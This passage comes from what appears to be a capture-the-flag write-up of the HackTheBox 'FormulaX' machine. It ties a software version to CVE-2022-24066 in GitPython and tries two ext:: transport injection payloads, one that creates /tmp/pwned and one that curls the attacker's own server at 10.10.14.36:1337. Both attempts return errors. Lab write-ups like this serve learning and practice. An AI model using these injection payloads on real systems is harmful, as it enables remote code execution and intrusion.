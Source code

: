 Researching a bit about this version, it seems to be vulnerable to **CVE-2022-24066**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-22.png)


From [here](https://github.com/gitpython-developers/GitPython/issues/1515), we found a usable payload.

Let's try running the payload:

`ext::sh -c touch% /tmp/pwned`

However, it shows an error:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-23.png)

Is this the issue with the payload or are we just not seeing the result?

Let's see if we can run commands towards our Python server:

`ext::sh -c curl% http://10.10.14.36:1337/testing`

It shows the same error when executed:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-24.png)
